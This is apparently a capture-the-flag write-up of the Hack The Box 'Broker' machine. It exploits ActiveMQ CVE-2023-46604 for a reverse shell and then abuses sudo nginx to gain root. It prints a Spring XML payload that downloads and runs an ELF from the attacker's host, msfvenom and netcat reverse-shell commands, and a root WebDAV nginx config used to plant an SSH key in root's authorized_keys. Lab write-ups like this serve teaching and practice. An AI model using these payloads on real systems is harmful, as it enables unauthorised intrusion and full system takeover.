



Broker is an easy difficulty `Linux` machine hosting a version of `Apache ActiveMQ`. Enumerating the version of `Apache ActiveMQ` shows that it is vulnerable to `Unauthenticated Remote Code Execution`, which is leveraged to gain user access on the target. Post-exploitation enumeration reveals that the system has a `sudo` misconfiguration allowing the `activemq` user to execute `sudo /usr/sbin/nginx`, which is similar to the recent `Zimbra` disclosure and is leveraged to gain `root` access.




If we access this ip, we find that it has an auth basic, trying easy passwords I realize that it is 'admin':'admin', once inside I look at what information it contains but I do not get anything relevant, so I go to the terminal.

I want to know what that server has up, so I run it:

```bash
 ┌─[✗]─[saf@parrot]─[~/exploits]
└──╼ $nmap -sC -sV 10.10.11.243
...
...
 Nmap scan report for 10.10.11.243
Host is up (0.12s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
1234/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-ls: Volume /
|   maxfiles limit reached (10)
| SIZE    TIME               FILENAME
| -       06-Nov-2023 01:10  bin/
| -       06-Nov-2023 01:10  bin/X11/
| 963     17-Feb-2020 14:11  bin/NF
| 129576  27-Oct-2023 11:38  bin/VGAuthService
| 51632   07-Feb-2022 16:03  bin/%5B
| 35344   19-Oct-2022 14:52  bin/aa-enabled
| 35344   19-Oct-2022 14:52  bin/aa-exec
| 31248   19-Oct-2022 14:52  bin/aa-features-abi
| 14478   04-May-2023 11:14  bin/add-apt-repository
| 14712   21-Feb-2022 01:49  bin/addpart
|_
|_http-title: Index of /
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> I look for the default port of ActiveMQ ( 61616 ), and it is up.

```bash

┌─[✗]─[saf@parrot]─[~/exploits]
└──╼ $nmap -p 61616 -sC -sV 10.10.11.243
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-04 02:59 CET
Nmap scan report for 10.10.11.243
Host is up (0.12s latency).

PORT      STATE SERVICE  VERSION
61616/tcp open  apachemq ActiveMQ OpenWire transport
| fingerprint-strings: 
|   NULL: 
|     ActiveMQ
|     TcpNoDelayEnabled
|     SizePrefixDisabled
|     CacheSize
|     ProviderName 
|     ActiveMQ
|     StackTraceEnabled
|     PlatformDetails 
|     Java
|     CacheEnabled
|     TightEncodingEnabled
|     MaxFrameSize
|     MaxInactivityDuration
|     MaxInactivityDurationInitalDelay
|     ProviderVersion 
|_    5.15.15

```
Active MQ on version 5.15 has vulnerability ( https://nvd.nist.gov/vuln/detail/CVE-2023-46604 )
And i found that: https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ

So with this exploit de main idea is get a type of exe and make a reverse shell with us.

```xml
    <?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
        xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="
        http://www.springframework.org/schema/beans
    http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
                <list>
                    <value>sh</value>
                    <value>-c</value>
                    <!-- The command below downloads the file and saves it as test.elf -->
                    <value>curl -s -o test.elf http://10.10.14.227:8001/test.elf; chmod +x
                    ./test.elf; ./test.elf</value>
                </list>
            </constructor-arg>
        </bean>
    </beans>

```


> Term 1
> LHOST (My local ip: 10.10.14.227)
> LPORT (A PORT FORT NETCAT on my case 4444)

```bash 

curl https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ/archive/refs/heads/main.zip

unzip main.zip

cd CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ-main

msfvenom -p linux/x64/shell_reverse_tcp LHOST={Your_Listener_IP/Host} LPORT={Your_Listener_Port} -f elf -o test.elf


```


> Term 2

```bash
python3 -m http.server 8001
```

> Term 3

```bash
nc -lvvp 4444

```

Now in the term 1 run:

```bash
    go run main.go -i 10.10.11.243 -p 61616 -u http://10.10.14.227:8001/poc-linux.xml
```



And in the terminal 3, you will have a reverse shell so u can run any command.

>The user flag can be found at **home/activemq/user.txt** .
{: .prompt-info }


In order not to have an escalation of privialage, we can choose either way

Oone option is to use [nginx dav module](https://nginx.org/en/docs/http/ngx_http_dav_module.html).

The main idea is to store our public key in authorized_keys for root by creating a malicious nginx.

```nginx
    user root;
    worker_processes 4;
    pid /tmp/nginx.pid;
    events {
        worker_connections 768;
    }
    http {
        server {
            listen 1337;
            root /;
            autoindex on;
            dav_methods PUT;
        }
    }
```

The key parts are the following:
- user root : The worker processes will be run by root , meaning when we eventually upload
a file, it will also be owned by root . 
- root / : The document root will be topmost directory of the filesystem.
- dav_methods PUT : We enable the WebDAV HTTP extension with the PUT method, which
allows clients to upload files.


```bash
echo 'user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
  worker_connections 768;
}
http {
  server {
    listen 1337;
    root /;
    autoindex on;
    dav_methods PUT;
  }
}' > /tmp/bad.conf
```

and we can check that if is up:

```bash
    activemq@broker:/tmp$ ss -tlpn
    State Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
    LISTEN 0 511 0.0.0.0:80 0.0.0.0:*
    LISTEN 0 4096 127.0.0.53%lo:53 0.0.0.0:*
    LISTEN 0 128 0.0.0.0:22 0.0.0.0:*
    LISTEN 0 511 0.0.0.0:1337 0.0.0.0:*
    
```

We generate a key pair:

```bash
activemq@broker:/tmp$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/activemq/.ssh/id_rsa): ./root
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in ./root
Your public key has been saved in ./root.pub
The key fingerprint is:
SHA256:ooCAL0h8Ox5bXucm2zutWwSXzRmSEl8h9YNzAWr3i6E activemq@broker
The key's randomart image is:
+---[RSA 3072]----+
| ..oo*o. |
|o ...O = .|
|oo . ..* B + |
|+o. . + . + .|
|+ o+ ...S. . . . |
| ...*...o . . o .|

```

And we upload the public key to the top inside root:

```bash
    curl -X PUT localhost:1337/root/.ssh/authorized_keys -d "$(cat root.pub)"
```

we can check it in the web browser:



>From the web, since we have access to the root data, we could already find the flag
{: .prompt-info }

We can connect via ssh:

```bash
activemq@broker:/tmp$ ssh -i root root@localhost
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)
```

>The root flag can be found at /root/root.txt .
{: .prompt-info }


